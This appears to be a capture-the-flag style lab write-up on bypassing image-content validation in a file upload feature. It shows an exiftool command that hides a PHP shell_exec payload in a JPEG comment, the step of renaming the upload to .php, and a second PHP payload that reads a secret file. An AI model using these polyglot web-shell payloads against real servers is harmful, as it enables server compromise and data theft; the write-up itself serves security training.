


## Flawed validation of the file's contents

Instead of implicitly trusting the `Content-Type` specified in a request, more secure servers try to verify that the contents of the file actually match what is expected.

In the case of an image upload function, the server might try to verify certain intrinsic properties of an image, such as its dimensions. If you try uploading a PHP script, for example, it won't have any dimensions at all. Therefore, the server can deduce that it can't possibly be an image, and reject the upload accordingly.

Similarly, certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes `FF D8 FF`.

This is a much more robust way of validating the file type, but even this isn't foolproof. Using special tools, such as ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata.

## Challenge

> This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.
> To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.
> You can log in to your own account using the following credentials: `wiener:peter`

--> i used exiftool to add the comment in the image with this command !

```bash
exiftool -comment="<?php echo shell_exec('cat /home/carlos/secret'); ?>" imageShell.jpeg
```

Now upload the image!

--> intercept the request and change the filename with `.php`



Remember that our answer will start after `6` and end before `y`

and i got this output!



--> In the other method you can place 2 identifiers or texts to check the password like `START` and `END`

So the payload will be like this :

```php
<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>
```

--> And when you send the above request you can see the secret between 2 texts `START` and `END`
